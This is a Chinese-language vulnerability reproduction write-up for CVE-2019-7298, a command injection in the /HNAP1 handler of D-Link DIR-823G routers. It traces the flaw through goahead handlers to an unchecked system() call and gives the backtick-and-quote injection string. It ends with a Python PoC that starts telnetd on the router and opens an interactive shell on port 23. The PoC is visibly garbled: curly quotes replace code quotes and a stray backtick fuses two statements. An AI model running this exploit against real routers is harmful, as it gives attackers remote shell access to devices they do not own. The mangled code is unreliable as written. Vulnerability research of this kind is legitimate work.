



# （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3383](https://www.zhihuifly.com/t/topic/3383)

# （CVE-2019-7298）D-Link DIR-823G 命令注入漏洞

## 一、漏洞简介

D-Link DIR 823G 1.02B03及之前的版本中存在命令注入漏洞，攻击者可通过发送带有shell元字符的特制/HNAP1请求利用该漏洞执行任意的操作系统命令。在HNAP API函数处理请求之前，system函数执行了不可信的命令，触发该漏洞。

## 二、漏洞影响

D-Link DIR 823G 1.02B03及之前的版本

## 三、复现过程

### 漏洞分析

在每次内核启动之后将启动init进程，init进程的启动时根据/etc/inittab这个文件赖在不同运行级别启动相应的进程或执行相应的操作。其中sysinit代表系统的初始化，只有系统开机或重新启动的时候，后面对应的process才会执行一次。

```
::sysinit:/etc/init.d/rcS 
```

在rcS中，先执行一些列mkdir和设置，执行了`goahead`。

> `goahead` 是一个开源的 `web` 服务器，用户的定制性非常强。可以通过一些 `goahead` 的 `api`定义 `url`处理函数和可供 `asp` 文件中调用的函数，具体可以看看官方的代码示例和网上的一些教程。

goahead的websUrlHandlerDefine函数允许用户自定义不同url的处理函数：

```
websUrlHandlerDefine(T("/HNAP1"), NULL, 0, websHNAPHandler, 0);
websUrlHandlerDefine(T("/goform"), NULL, 0, websFormHandler, 0);
websUrlHandlerDefine(T("/cgi-bin"), NULL, 0, websCgiHandler, 0); 
```

以上代表/HNAP1的请求交给websHNAPHandler函数处理，/gofrom的请求交给websFormHandler函数处理，/cgi-bin的请求交websCgiHandler函数处理。这些处理函数有统一的参数：

```
int (*fn)(webs_t wp, char_t *url, char_t *path, char_t *query)
wp    Web server connection handle.  
url   Request URL.  
path  Request path portion of the URL.  
query Query string portion of the URL. 
```

先了解/HNAP1请求的处理函数，在goahead中查找“HNAP1”字符串并通过xref定位处理函数sub_42383c



`sub_4238c`主要通过遍历全局的函数表来处理HNAP1接受的不同请求。function_list中每个元素的前四个字节为函数名，后四个字节为对应的函数地址。当找到在function_list中找到函数名与请求相同的字符串时，向/var/hnaplog中记录`param_7`的值，这个值但从汇编不太能看出，[hackedbylh](https://xz.aliyun.com/t/2834#toc-4)指出是post的报文，在运行过程中查看/var/hnaplog能猜出来。之后调用对应的函数地址处理相关请求。

这里无论处理请求的函数名是什么，在找到之后会通过snprintf输入字符且未做检查，之后直接system执行，存在命令注入漏洞。如果post请求是'`/bin/telnetd`'，就会先开启telnet服务器，再讲字符写入hnaplog。





另外需要注意，post的数据要加上引号，因为echo '%s' > /var/hnaplog中本身带了单引号，如果只是`/bin/telnet`，相当于

```
echo '`/bin/telnet`' > /var/hnaplog 
```

由于命令由引号括起，会当做字符串处理，不会执行命令

而

```
echo ''`/bin/telnet`'' > /var/hnaplog 
```

post中的两个引号分别与自带的两个引号组合，反引号没有嵌套在单引号中，会当做命令执行。

### poc

```
import requests
from pwn import *

IP=‘192.168.0.1’

command ="’`/bin/telnetd`’"

length = len(command)

headers = requests.utils.default_headers()

headers[“Content-Length”]=str(length)

headers[“User-Agent”] = “Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.76 Safari/537.36”

headers[“SOAPAction”] = ‘“[http://purenetworks.com/HNAP1/Login](http://purenetworks.com/HNAP1/Login)”’#此处的Login可以替换为任何在function_list中的函数名

headers[“Content-Type”] = “text/xml; charset=UTF-8”

headers[“Accept”]="*/*"

headers[“Accept-Encoding”]=“gzip, deflate”

headers[“Accept-Language”]=“zh-CN,zh;q=0.9,en;q=0.8”

payload = command

r = requests.post(‘http://’+IP+’/HNAP1/’, headers=headers, data=payload)

print r.text `p=remote(IP,23)

p.interactive()` 
```